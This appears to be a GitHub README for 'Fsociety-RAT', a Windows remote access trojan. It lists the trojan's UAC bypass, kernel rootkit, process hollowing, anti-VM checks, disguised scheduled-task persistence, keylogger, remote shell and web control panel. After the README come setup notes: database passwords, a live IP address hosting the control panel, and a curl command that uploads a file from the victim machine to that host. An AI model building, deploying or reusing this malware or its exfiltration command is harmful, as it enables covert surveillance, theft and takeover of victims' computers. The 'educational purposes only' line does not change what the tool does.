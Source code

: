 # Fsociety-RAT
It was really fun to make this project! This project have a lot of great features and a very good website control for the bots.

The final Malware will bypassing UAC, installing rootkit on 32 bit systems, obfuscated strings, Anti-VM technique, Process Hollowing , Communicate with the website control using CURL (curl is preinstalled in every windows!). 

## RAT

### Malware Persistence Techniques

:heavy_check_mark: The malware hiding a DLL to bypass UAC and a Rootkit in new sections.    
:heavy_check_mark: Bypassing UAC using UAC hijacking on the program ComputerDefaults.exe in a "Windows " folder.    
:heavy_check_mark: Create a task for the malware in Task Schduler in the path "Microsoft\\Windows\\Security" with high privileges.    
:heavy_check_mark: If the system is 32-bit install and start the rootkit.    
:heavy_check_mark: If the system is 64-bit the malware will start Process Hollowing    

### Malware Attacks
The malware communicate with a control website, this is the current attacks:

:heavy_check_mark: Screenshot    
:heavy_check_mark: Task Scheduler       
:heavy_check_mark: Remote Shell    
:heavy_check_mark: File Manager    
:heavy_check_mark: File Explorer    
:heavy_check_mark: Keylogger    
:heavy_check_mark: Client Info    

### Website Control Images
Main website control - list the clients and show info about them

![plot](./Images/Main.PNG)

Victim profile page

![plot](./Images/Profile.PNG)


## Rootkit
The Rootkit is for 32-bit systems. https://github.com/ElliotAlderson51/Kernel-Rootkit-32Bit

### What the Rootkit can do?

#### Hook the SSDT

:heavy_check_mark: Protect Files (Read\Write\Create\Delete\Rename\Open\Execute)     
:heavy_check_mark: Hide Process    
:heavy_check_mark: Protect Process, Thread     
:heavy_check_mark: Protect Registry Keys (Open\Create\Delete\Set)        
:heavy_check_mark: Bypass privilege checks

## DLL - Bypass UAC
Create a DLL that will be hijacked to ComputerDefaults to start the malware with high privilege.        
https://github.com/ElliotAlderson51/Bypass-UAC

## section_injector
This Projects will inject a file to new section in another file.
```
Injector.exe "section name" "target" "file"
```

## Websites

### Fsociety Control Website
This is the Control Website the malware is communicate with to get the commands to execute.

### Fsociety Redirect Website
This website have hardcoded url in the malware code, the malware will get the Control Website url from this website.    
I create this website so if there is a problem with the Control Website you can just upload the Control Website again and change the url in this website.   

## Sub Projects
This solutions was helping me to build the final malware

### Initialize RAT
This automated the build of the final malware.

:heavy_check_mark: UPX the DLL file     
:heavy_check_mark: Inject the DLL and the Rootkit to new sections.

### Encoding_Decoding
This helps me to obfuscate the strings in the malware.

## TODO

* Obfuscate Imports

##   
This project is for EDUCATIONAL PURPOSES ONLY. You are the only responsable for your actions! Happy Hacking (;


sudo apt install php-mysqli

http://34.29.59.35/2/real_login.php

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY '1234qwer';
FLUSH PRIVILEGES;
EXIT;

CREATE USER 'myuser'@'localhost' IDENTIFIED BY '1234qwer';
GRANT ALL PRIVILEGES ON rat.* TO 'myuser'@'localhost';
FLUSH PRIVILEGES;

ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY '1234qwer';
ALTER USER 'root'@'localhost' IDENTIFIED WITH caching_sha2_password BY 'BlueskyP@ss123';

schtasks /Query /TN "Microsoft\\Windows\\Security\\WindowsSecurityTask"
schtasks /Delete /TN "Microsoft\Windows\Security\WindowsSecurityTasks"

curl -F "file=@D:\1.png" http://34.29.59.35/2/Receive_Send.php?id=FC3497957CFE -s